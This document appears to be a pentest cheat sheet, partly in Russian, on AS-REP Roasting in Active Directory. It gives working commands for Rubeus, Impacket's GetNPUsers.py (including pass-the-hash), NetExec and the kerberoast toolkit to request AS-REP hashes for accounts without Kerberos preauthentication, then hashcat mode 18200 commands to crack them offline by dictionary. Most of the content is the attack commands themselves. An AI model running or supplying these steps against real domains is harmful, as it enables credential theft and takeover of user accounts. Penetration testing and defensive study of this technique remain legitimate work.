 # AS-REP Roasting

### **Условие для проведения атаки**:

* Учетная запись с аутентификацией без предварительной проверки подлинности Kerberos

```powershell
Rubeus.exe asreproast /outfile:$result_File
```

После отправки на DC KRB\_AS\_REQ сообщения от имени пользователя, у которого отключена предварительная аутентификация, в ответ присылается KRB\_AS\_REP сообщение, содержащее сессионный ключ, зашифрованный с использованием секрета указанного пользователя. Таким образом можно попытаться подобрать пароль оффлайн по словарю.



### Request

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) (Python) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.

```bash
# users list dynamically queried with an LDAP anonymous bind
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).

Copy

```
netexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
```

The [kerberoast](https://github.com/skelsec/kerberoast) pure-python toolkit is a good alternative to the tools mentioned above.

### Brute

```bash
.\hashcat64.exe -m 18200 --force -a 0 .\hash.asreproast .\pass.txt
```

```bash
hashcat -m 18200 $asrep_hashes_file $dict_file
```
